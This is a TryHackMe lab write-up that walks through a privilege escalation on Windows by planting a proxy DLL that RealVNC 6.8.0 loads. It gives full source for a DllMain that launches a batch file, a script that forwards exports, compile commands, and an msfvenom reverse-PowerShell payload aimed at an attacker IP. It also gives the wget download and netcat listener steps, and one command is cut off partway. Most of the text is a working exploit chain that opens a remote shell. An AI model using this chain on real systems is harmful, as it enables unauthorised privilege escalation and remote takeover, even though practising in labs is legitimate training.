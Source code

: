 writeup for "Tryhackme.com room Windows Privilege Escalation, Task 7 Abusing vulnerable software" by VonKlotz

Case study: RealVNC 6.8.0

C:\Users\<username>\AppData\Local\Temp\     its our exploit destination
C:\Windows\System32\adsldpc.dll 			its dll we will proxy it need to copy it to our machine
1.bat  										msfvenom -p cmd/windows/reverse_powershell lhost=10.0.0.0 lport=9595 > 1.bat

~~~ FILES ~~~
proxy.c : A standard C implementation of a DLL. The only method implemented will be the DLLMain() function, containing our payload.

@@@@@@@@@@@@@@@@@@@ proxy.c @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
            system("C:\\tools\\1.bat");
    }

    return TRUE;
}
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

proxy.def : A definition file to pass to the linker, where we will specify all of the export forwards back to the original DLL. The structure of the file will hold a line for each export where we will indicate the name of the export, followed by the DLL and method name where the calls will be forwarded, followed by an ordinal that specifies in which position of the export table will the method be:

@@@@@@@@@@@@@@@@@@@@ proxy.def @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
EXPORTS
Method1=C:/Windows/System32/original.dll.Method1 @1
Method2=C:/Windows/System32/original.dll.Method2 @2
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

get_exports.py : We will then use a slightly modified version of the get_exports.py script from the Cobalt-Strike Github repo.

@@@@@@@@@@@@@@@@@@@@ get_exports.py @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
import pefile
import argparse

parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')

args = parser.parse_args()

target = args.target
original_path = args.originalPath.replace('\\','/')

dll = pefile.PE(target)

print("EXPORTS", end="\r\n")

for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print(f"    {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


~~~ STEPS ~~~

1. make files above

2. make proxy using command below 

python3 get_exports.py --target adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def

3. command bellow will compile proxy.c with the -c option, which won't run the linker and produce a proxy.o object file.

x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel

4. command bellow will take the proxy.o file and run it through the linker, which will also receive the proxy.def file with all of the exports we need for our proxy DLL. As a result, we will end up with the proxy.dll file we need to exploit RealVNC. Feel free to run get_exports.py into the new file to confirm it contains all the exports in the original DLL

x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll

5. create our payload 1.bat using msfvenom command bellow

msfvenom -p cmd/windows/reverse_powershell lhost=10.0.0.0 lport=9595 > 1.bat

6. start server on our machine command bellow in directory with files

python3 -m http.server 80

7. run powershell and download our dll to C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll  we can use command bellow

wget http://10.0.0.0:80/proxy.dll -O C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll

8. in powershell download 1.bat (our rev shell payload) use command bellow

wget http://10.0.0.0:80/1.bat -O 

9. start listener on attaking machine can use command bellow

nc -lvnp 9595

10.run add and remove programs, click modify then choose repair and run it

~~~ ENJOY ~~~ 
